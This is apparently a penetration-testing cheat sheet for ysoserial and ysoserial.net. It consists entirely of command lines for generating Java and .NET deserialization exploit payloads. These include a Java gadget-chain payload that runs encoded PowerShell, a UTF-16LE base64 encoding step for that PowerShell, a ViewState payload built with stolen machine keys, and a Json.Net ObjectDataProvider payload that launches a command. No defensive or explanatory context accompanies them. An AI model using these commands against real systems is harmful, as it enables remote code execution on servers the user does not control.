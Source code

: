 # ysoserial

% ysoserial, ysoserial.net, java, .net, unserialize

## ysoserial java - generate payload
```
java -jar ysoserial.jar <lib_payload> 'powershell.exe -EncodedCommand <base64_encoded_command>' > <output_file>
```

## convert file to base64 one line
```
iconv -f ASCII -t UTF-16LE <file_to_convert> | base64 | tr -d "\n"
```

## ysoserial.net - generate payload VIEWSTATE
```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell -EncodedCommand <base64_encoded_command>" --path="<asp_file_webroot_relative_path>" --apppath="<application_path_webroot_relative>" --decryptionalg="3DES" --decryptionkey="<decryption_key>" --validationalg="SHA1" --validationkey="<validation_state>"
```

## ysoserial.net - calc.exe payload for Json.Net using ObjectDataProvider gadget.
```
ysoserial.exe -f <lib|Json.Net> -g <gadget|ObjectDataProvider> -o raw -c "<command|calc.exe>" -t
```

= lib_payload : CommonsCollections1
